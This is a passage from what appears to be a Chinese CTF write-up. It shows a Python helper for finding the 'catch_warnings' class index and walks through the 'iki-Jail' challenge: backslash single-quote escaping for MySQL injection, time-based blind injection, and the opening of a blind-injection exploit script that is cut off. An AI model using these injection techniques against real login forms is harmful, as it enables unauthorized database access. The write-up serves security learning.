 ```
#python 3
import re
str = '''
[回显内容]
'''

list = re.split(',', str)

for i in range(0, len(list)):
      if 'catch_warnings' in list[i]:
            print(i)
            break
```

### <a class="reference-link" name="iki-Jail"></a>iki-Jail

考点：MySQL注入，单引号逃逸

熟悉的登录框，熟悉的sql注入

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e755bd04832b8519.png)

发现用户字段必须要邮箱才可以，而且如果开了Burp抓包之后会出现一些问题，导致Ajax不能工作。

于是直接使用bp对`login.php`发包；

进行了简单的fuzz，过滤如下：

[![](https://p3.ssl.qhimg.com/t0122ef0cd9ee72e0d9.png)](https://p3.ssl.qhimg.com/t0122ef0cd9ee72e0d9.png)

由单双引号过滤想到了`\`逃逸单引号，当我们用户名输入`admin\`的时候，语句变成了：

```
SELECT * FROM user WHERE username='admin\' AND password='xxx'

```

那么`xxx`就变成了sql语句执行，造成了注入；

结果发现只能延时注入：

[![](https://p1.ssl.qhimg.com/t0129b4b7be17ab48ec.png)](https://p1.ssl.qhimg.com/t0129b4b7be17ab48ec.png)

exp：

```
#python3,wh1sper
import requests
import time

host = 'https://jailbreak.liki.link/login.php'

def mid(bot, top):
    return (int)(0.5*(top+bot))

def transToHex(flag):
    res = ''
    for i in flag:
        res += hex(ord(i))
    res = '0x' + res.replace('0x', '')
    return res

def sqli():
    name = ''
    for j in range(1, 200):
        top = 126
```
